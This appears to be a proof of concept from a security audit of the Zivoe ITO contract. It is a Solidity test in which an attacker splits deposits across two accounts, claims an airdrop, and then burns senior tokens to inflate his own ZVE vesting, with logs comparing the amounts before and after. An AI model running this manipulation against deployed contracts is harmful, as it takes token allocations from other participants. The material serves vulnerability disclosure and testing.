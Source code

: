 ## Code Snippet
Add this function to Test_ZivoeITO.sol and import the console.

You can comment the line where Sue burns their tokens and see the differences in the logs.
```solidity
    function test_StealZVE() public {
        // Sam is an honest actor, while Bob is a malicious one
        mint("DAI", address(sam), 3_000_000 ether);
        mint("DAI", address(bob), 2_000_000 ether);
        zvl.try_commence(address(ITO));

        // Bob has another Ethereum account, Sue
        bob.try_transferToken(DAI, address(sue), 1_000_000 ether);
        
        // give approvals
        assert(sam.try_approveToken(DAI, address(ITO), type(uint256).max));
        assert(bob.try_approveToken(DAI, address(ITO), type(uint256).max));
        assert(sue.try_approveToken(DAI, address(ITO), type(uint256).max));

        // Sam deposits 2M DAI to senior tranche and 400k to the junior one
        hevm.prank(address(sam));
        ITO.depositBoth(2_000_000 ether, DAI, 400_000, DAI);
       
        // Bob deposits 2M DAI into the senior tranche using his both accounts
        hevm.prank(address(bob));
        ITO.depositSenior(1_000_000 ether, DAI);

        hevm.prank(address(sue));
        ITO.depositSenior(1_000_000 ether, DAI);

        // Move the timestamp after the end of the ITO
        hevm.warp(block.timestamp + 31 days);
        
        ITO.claimAirdrop(address(sue));
        (, , , uint256 totalVesting, , , ) = vestZVE.viewSchedule(address(sue));

        // Sue burn all senior tokens
        vm.prank(address(sue));
        zSTT.burn(1_000_000 ether);

        console.log('Sue vesting: ', totalVesting / 1e18);

        ITO.claimAirdrop(address(bob));
        (, , , totalVesting, , , ) = vestZVE.viewSchedule(address(bob));

        console.log('Bob vesting: ', totalVesting / 1e18);

        ITO.claimAirdrop(address(sam));
        (, , , totalVesting, , , ) = vestZVE.viewSchedule(address(sam));

        console.log('Sam vesting: ', totalVesting / 1e18);
    }
```solidity
Fair vesting without prior burning

  Sue vesting:  312499
  Bob vesting:  312499
  Sam vesting:  625001
Vesting after burning

  Sue vesting:  312499
  Bob vesting:  416666
  Sam vesting:  833333
```